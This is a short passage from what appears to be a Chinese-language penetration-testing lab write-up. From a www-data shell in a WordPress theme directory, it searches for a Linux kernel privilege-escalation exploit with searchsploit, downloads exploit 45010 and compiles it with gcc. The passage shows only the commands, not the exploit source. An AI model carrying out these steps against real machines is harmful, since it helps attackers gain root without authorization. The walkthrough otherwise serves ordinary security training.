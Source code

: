 ```
www-data@ubuntu:/var/www/html/wordpress/wp-content/themes/twentynineteen$ 
```

### `尝试使用内核提权`

```java
searchsploit Linux ubuntu 4.10-28
```

![image-20231007170547321](..\img\final\image-20231007170547321.png)

英文翻译

```
第一个是 免usa...
Privilage Escalation是权限升级，后两个都可以
searchsploit Linux ubuntu -m 45010下载到本地
```

发现了编译方式

![image-20231007171040633](..\img\final\image-20231007171040633.png)

```
sudo gcc 45010.c -o 45010
```
